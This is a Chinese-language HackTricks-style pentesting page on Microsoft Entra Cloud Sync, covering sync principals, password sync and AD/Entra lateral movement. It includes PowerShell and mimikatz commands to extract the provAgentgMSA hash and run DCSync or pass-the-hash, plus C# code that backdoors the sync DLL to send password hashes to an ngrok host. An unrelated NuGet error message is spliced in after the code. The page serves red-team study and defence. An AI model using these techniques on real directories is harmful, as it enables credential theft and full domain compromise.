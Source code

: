 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

**Cloud Sync** 基本上是 Azure 用于 **将用户从 AD 同步到 Entra ID** 的新方式。

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync 是 Microsoft 提供的一项新服务，旨在满足并实现您在用户、组和联系人同步到 Microsoft Entra ID 的混合身份目标。它通过使用 Microsoft Entra 云配置代理而不是 Microsoft Entra Connect 应用程序来实现这一点。然而，它可以与 Microsoft Entra Connect Sync 一起使用。

### 生成的主体

为了使其正常工作，在 Entra ID 和本地目录中创建了一些主体：

- 在 Entra ID 中，创建了用户 `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`)，其角色为 **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`)。

> [!WARNING]
> 此角色曾经拥有许多特权权限，可以用于 [**提升权限甚至到全局管理员**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)。然而，Microsoft 决定删除此角色的所有权限，并仅分配一个新角色 **`microsoft.directory/onPremisesSynchronization/standard/read`**，该角色实际上不允许执行任何特权操作（如修改用户的密码或属性或向 SP 添加新凭据）。

- 在 Entra ID 中，还创建了没有成员或所有者的组 **`AAD DC Administrators`**。如果使用 [`Microsoft Entra Domain Services`](./az-domain-services.md)，此组非常有用。

- 在 AD 中，创建了服务帐户 **`provAgentgMSA`**，其 SamAccountName 类似于 **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`)，或者需要具有 [**这些权限的自定义帐户**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)。通常会创建默认帐户。

> [!WARNING]
> 除其他权限外，服务帐户 **`provAgentgMSA`** 具有 DCSync 权限，允许 **任何人一旦妥协它就能妥协整个目录**。有关 DCSync 的更多信息，请查看 [DCSync 检查此](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)。

> [!NOTE]
> 默认情况下，具有 **`adminCount` 为 1 的已知特权组（如域管理员）的用户出于安全原因不会与 Entra ID 同步。然而，其他没有此属性的特权组成员或直接分配高权限的用户 **可以被同步**。

## 密码同步

该部分与以下内容非常相似：

{{#ref}}
az-connect-sync.md
{{#endref}}

- **密码哈希同步** 可以启用，以便用户能够 **使用其 AD 密码登录 Entra ID**。此外，每当在 AD 中修改密码时，它将在 Entra ID 中更新。
- **密码回写** 也可以启用，允许用户在 Entra ID 中修改其密码，并自动同步其在本地域中的密码。但根据 [当前文档](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback)，这需要使用 Connect Agent，因此请查看 [Az Connect Sync 部分](./az-connect-sync.md) 以获取更多信息。
- **组回写**：此功能允许将 Entra ID 中的组成员资格同步回本地 AD。这意味着如果用户被添加到 Entra ID 中的组，他们也将被添加到 AD 中的相应组。

## 侧向移动

### AD --> Entra ID

- 如果 AD 用户正在从 AD 同步到 Entra ID，则从 AD 到 Entra ID 的侧向移动非常简单，只需 **妥协某个用户的密码或更改某个用户的密码或创建一个新用户并等待其同步到 Entra ID 目录（通常只需几分钟）**。

因此，您可以例如
- 妥协 **`provAgentgMSA`** 帐户，执行 DCSync 攻击，破解某个用户的密码，然后使用它登录 Entra ID。
- 只需在 AD 中创建一个新用户，等待其同步到 Entra ID，然后使用它登录 Entra ID。
- 修改 AD 中某个用户的密码，等待其同步到 Entra ID，然后使用它登录 Entra ID。

要妥协 **`provAgentgMSA`** 凭据：
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
现在您可以使用 gMSA 的哈希值对 Entra ID 执行 Pass-the-Hash 攻击，使用 `provAgentgMSA` 账户并保持持久性，从而能够对 AD 执行 DCSync 攻击。

有关如何破坏 Active Directory 的更多信息，请查看：

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> 请注意，无法根据其属性为同步用户在 Cloud Sync 配置中授予 Azure 或 EntraID 角色。然而，为了自动授予同步用户权限，某些 **来自 AD 的 Entra ID 组** 可能会被授予权限，因此这些组内的同步用户也会接收到这些权限，或者 **可以使用动态组**，因此始终检查动态规则和潜在的滥用方式：

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

关于持久性，[这篇博客文章](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) 建议可以使用 [**dnSpy**](https://github.com/dnSpy/dnSpy) 来后门 **`Microsoft.Online.Passwordsynchronisation.dll`**，该文件位于 **`C:\Program Files\Microsoft Azure AD Sync\Bin`**，由 Cloud Sync 代理使用以执行密码同步，使其将被同步用户的密码哈希导出到远程服务器。哈希是在 **`PasswordHashGenerator`** 类内部生成的，博客文章建议添加一些代码，使该类看起来像（注意 `use System.Net` 和 `WebClient` 的使用以导出密码哈希）：
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet 包恢复失败，项目 AzTokenFinder：无法找到包 'System.Security.Cryptography.X509Certificates' 的版本 '4.3.2'。  
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: 在源 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\' 中未找到包 'System.Security.Cryptography.X509Certificates.4.3.2'。  
请查看错误列表窗口以获取详细的警告和错误。

### Entra ID --> AD

- 如果启用了 **Password Writeback**，您可以从 Entra ID 修改某些用户的密码，如果您可以访问 AD 网络，则可以使用这些密码进行连接。有关更多信息，请查看 [Az Connect Sync section](./az-connect-sync.md) 部分，因为密码写回是通过该代理配置的。

- 此时，Cloud Sync 还允许 **"Microsoft Entra ID to AD"**，但经过一段时间后我发现它无法将 EntraID 用户同步到 AD，只能同步与密码哈希同步的 EntraID 用户，并且这些用户必须来自与我们正在同步的域属于同一域林的域，正如您在 [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits) 中所述：

> - 这些组只能包含本地同步的用户和/或额外的云创建的安全组。  
> - 被同步的本地用户帐户和此云创建的安全组的成员可以来自同一域或跨域，但它们必须来自同一林。

因此，该服务的攻击面（和实用性）大大降低，因为攻击者需要破坏用户同步的初始 AD，才能破坏另一个域中的用户（而且显然两个域必须在同一林中）。

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}
